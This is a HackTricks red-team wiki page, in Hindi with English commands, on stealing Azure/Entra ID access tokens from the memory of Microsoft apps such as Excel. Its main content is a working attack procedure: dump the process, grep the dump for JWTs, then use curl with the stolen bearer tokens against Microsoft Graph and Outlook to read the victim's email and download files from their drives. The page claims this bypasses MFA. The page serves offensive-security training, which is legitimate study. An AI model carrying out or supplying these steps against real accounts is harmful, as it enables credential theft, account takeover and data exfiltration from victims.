 # Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=OHKZkXC4Duw) में समझाया गया है, कुछ Microsoft सॉफ़्टवेयर जो क्लाउड के साथ समन्वयित होते हैं (Excel, Teams...) **स्मृति में स्पष्ट-टेक्स्ट में एक्सेस टोकन स्टोर कर सकते हैं**। इसलिए केवल प्रक्रिया की **स्मृति** को **डंप** करना और **JWT टोकन के लिए grep करना** आपको क्लाउड में पीड़ित के कई संसाधनों तक पहुंच प्रदान कर सकता है, MFA को बायपास करते हुए।

चरण:

1. अपने पसंदीदा टूल के साथ EntraID उपयोगकर्ता के साथ समन्वयित एक्सेल प्रक्रियाओं को डंप करें।
2. चलाएँ: `string excel.dmp | grep 'eyJ0'` और आउटपुट में कई टोकन खोजें
3. उन टोकनों को खोजें जो आपको सबसे अधिक रुचिकर हैं और उनके ऊपर टूल चलाएँ:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**ध्यान दें कि इस प्रकार के एक्सेस टोकन अन्य प्रक्रियाओं के अंदर भी पाए जा सकते हैं।**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
